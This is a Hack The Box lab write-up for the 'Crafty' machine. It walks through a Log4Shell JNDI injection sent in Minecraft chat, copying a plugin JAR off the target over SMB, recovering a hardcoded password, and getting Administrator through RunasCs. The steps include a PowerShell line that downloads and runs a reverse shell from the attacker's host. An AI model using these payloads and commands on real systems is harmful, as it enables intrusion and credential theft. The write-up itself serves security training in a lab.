



# Crafty



Crafty is a Hack The Box machine centered on a Minecraft service vulnerable to Log4Shell. Initial access comes from JNDI injection, and privilege escalation is achieved by extracting credentials from a plugin JAR and using RunasCs for interactive command execution as Administrator.

## Reconnaissance

I started with a full port scan against the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.129.203.233
```

The scan showed a Windows host with HTTP on port 80 and Minecraft on port 25565.

```text
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
25565/tcp open  minecraft  Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
```

The web server redirected to `crafty.htb`, so I added that hostname to `/etc/hosts`.

```bash
echo '10.129.203.233 crafty.htb' | sudo tee -a /etc/hosts
```



The page itself was just a static Minecraft-themed landing page, but the Minecraft version strongly suggested Log4Shell exposure.

## Initial Access

To exploit Log4Shell, I used the public proof-of-concept from `kozmer/log4j-shell-poc` https://github.com/kozmer/log4j-shell-poc and adapted it for Windows by changing the spawned command from `/bin/sh` to `cmd.exe`.

The PoC needed Java 8 in a directory named `jdk1.8.0_20`, so I downloaded and unpacked the JDK, then renamed the folder accordingly.

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
tar -xvf jdk-8u181-linux-x64.tar.gz
mv jdk1.8.0_181 jdk1.8.0_20
```

After preparing the exploit, I ran it with my IP, HTTP port, and reverse shell port.

```bash
python3 poc.py --userip 10.10.16.61 --webport 8000 --lport 443
```

The script generated the exact payload to use in Minecraft chat:

```text
${jndi:ldap://10.10.16.61:1389/a}
```

Submitting that string in chat triggered the exploit and gave me a reverse shell.

## Foothold

Once the shell landed, I began local enumeration to look for interesting binaries, services, or plugin files.

A useful file showed up in the Minecraft server plugins directory:

```text
playercounter-1.0-SNAPSHOT.jar
```

I set up an SMB share on my box and copied the JAR over from the target.

```bash
impacket-smbserver exfil ./ -smb2support -username "calico" -password "calico"
net use Z: \\10.10.16.61\exfil /user:calico calico
copy .\playercounter-1.0-SNAPSHOT.jar Z:\playercounter-1.0-SNAPSHOT.jar
```

## Credential Recovery

I opened the JAR in `jd-gui` and inspected the `Playercounter.class` file. Inside, I found what looked like hardcoded credentials.



```text
s67u84zKq8IXw
```

Those credentials were not directly usable for login, so I needed a way to run commands as another Windows user.

## Privilege Escalation

`runas` requires an interactive session, so I used **RunasCs** instead. I hosted the binary and downloaded it onto the target.

```bash
python -m http.server 80
```

On the target, I used the credentials together with a PowerShell reverse shell command.

```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.61/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.61 -Port 444"
```

That gave me an elevated shell as `Administrator`, completing the machine.

## Attack Path

- Scan the host and identify the Minecraft service.
- Confirm the target is likely vulnerable to Log4Shell.
- Modify the public PoC for Windows execution.
- Trigger JNDI injection through Minecraft chat.
- Gain initial shell access.
- Exfiltrate the plugin JAR with SMB.
- Reverse engineer the JAR and recover credentials.
- Use RunasCs with the recovered password.
- Launch a PowerShell reverse shell as Administrator.
